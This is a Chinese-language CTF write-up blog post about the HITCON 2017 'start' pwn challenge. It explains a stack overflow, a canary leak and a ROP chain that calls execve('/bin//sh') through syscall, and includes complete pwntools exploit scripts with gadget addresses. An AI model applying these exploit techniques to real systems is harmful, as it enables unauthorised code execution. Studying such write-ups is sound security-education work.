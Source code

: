```yaml
---
layout:     post
title:      "Stack overflow pwnd using syscall"
subtitle:   "栈溢出利用--syscall"
date:       2017-11-13 07:30:00 -0800
author:     "Dafeng"
header-img: "img/post-bg-rwd.jpg"
header-mask: 0.3
catalog: true
tags:
    - CTF
    - Pwn
---
```


### 简述
此次hitcon 2017 pwn部分的第一题，题型为栈溢出，利用syscall系统调用完成程序栈溢出利用，然后此题要求使用ruby版的pwntools，使得我2天ruby从入门到放弃，再也不碰ruby，毕竟我是python粉啊! 人生苦短，我用python...

### 题目分析
#### 反编译
使用IDA反编译程序：
![main](/img/start/main.png)
分析程序可知，程序往v4的buffer区内读入217个字节，但是v4首地址距离栈帧底rbp位置是0x20,当读入程序时发生栈溢出。

#### 动态调试
使用gdb peda调试程序，检查程序打开的开关
![checksec](/img/start/checksec.png)
栈中有canary保护，并且栈不可执行，但是结合程序后面的puts函数，可以打印出canary的值，后续绕过栈cookie后，再想办法构造rop。

##### 确定canary的值
根据函数栈结构可知，栈帧的返回地址为rbp + 8, canary一般位于rbp前，我们猜测v4 buffer的长度为24， canary大小为8，rbp大小也为8， rbp距离v4首地址40的位置，写脚本验证。
```python
from pwn import *

context(log_level='debug')
p = process("./start")
print proc.pidof(p)

raw_input("...")
p.send("A" * 24 + "B")

p.recvuntil("A" * 24 + "B" )
leak = p.recvuntil("\n")
canary = u64(leak[0:7].rjust(8, '\x00'))

payload = "A" * 24 + p64(canary) + "BBBBBBBB"
p.send(payload)

p.recv(32)
sleep(1)

p.send("exit\n")
sleep(1)

p.interactive()
```
执行该脚本可以获取canary的值:
![canar](/img/start/canary.png)

##### 利用ROPgadget构造rop链
本来准备构造rop链跳转到onegadget位置（libc中execve位置），结果分析半天，程序根本就没有给libc，而且程序根本就不调用libc。那么直接利用ROPgadget chain或者自己构造rop链，
> 如：ROPgadget --binary ./start --ropchain

此处自己构造ropchain，看起来会好看点

#### 程序利用思路
由于程序没有system函数调用，并且也没有libc，程序栈不可以执行，这种情况下，虽然可以利用栈溢出来执行mmap函数映射出一块可写可执行的区域，然后再把shellcode放到这个区域内，但是相对麻烦，程序中大量的使用syscall系统调用，因此我们直接使用execve系统调用来执行/bin/sh。
> execve("/bin//sh", 0, 0)

在x64系统中execve是59号系统调用，因此在执行syscall是将rax值置为59, 而execve的参数分别为 (char*)$rdi = "/bin//sh", $rsi = 0, $

#### 利用脚本
solve.py
```python
from pwn import *

#使用ROPgadget获取一下gadgets地址

#  0x0000000000443776 : pop rdx ; ret
#  0x0000000000418de0 : mov rax, rdx ; ret
#将栈上的值赋给rdx，然后赋给rax，是rax的值是59


#  0x00000000004017f7 : pop rsi ; ret
#  0x00000000004005d5 : pop rdi ; ret
#  0x00000000004279DB   mov  [rdi], rsi
# 将"/bin//sh"赋值给rsi， 然后将rsi的值赋值给rdi执行的的地址

#  0x0000000000443799 : pop rdx ; pop rsi ; ret
#  0x0000000000468e75 : syscall
# 将栈上的数值0,0分别赋值给rdx，rsi，然后执行syscall,此时rax=59, rdi的值是"/bin//sh"的指针，rsi=0， rdx=0, 执行syscall就相当于执行execve("/bin//sh",0,0)


context(log_level='debug')
p = process("./start")
print proc.pidof(p)

raw_input("...")
p.send("A" * 24 + "B")

p.recvuntil("A" * 24 + "B" )
leak = p.recvuntil("\n")
canary = u64(leak[0:7].rjust(8, '\x00'))


# sleep(1)
prdxret = 0x443776
mraxrdx = 0x418de0
prdiret = 0x4005d5
prdxrsiret = 0x443799
syscall = 0x468e75
prsiret = 0x4017f7
mrdirsi = 0x4279DB

payload1 = "A" * 24 + p64(canary) + p64(0x6cc082)
payload1 += p64(prdxret)+p64(59) + p64(mraxrdx)
payload1 += p64(prsiret) + '/bin//sh' + p64(prdiret) + p64(0x6cc0fa) + p64(mrdirsi)
payload1 += p64(prdxrsiret)+ p64(0) + p64(0)
payload1 += p64(syscall)


p.send(payload1)

p.recv(32)
sleep(1)

p.send("exit\n")
sleep(1)
p.interactive()
```

#### 结果
执行python solve.py:
![pwnd](/img/start/pwnd.png)
拿到shell


### 总结
主要是通过构造rop链来实现利用syscall系统调用来执行execve("/bin//sh", 0, 0)， interesting, isn't it?
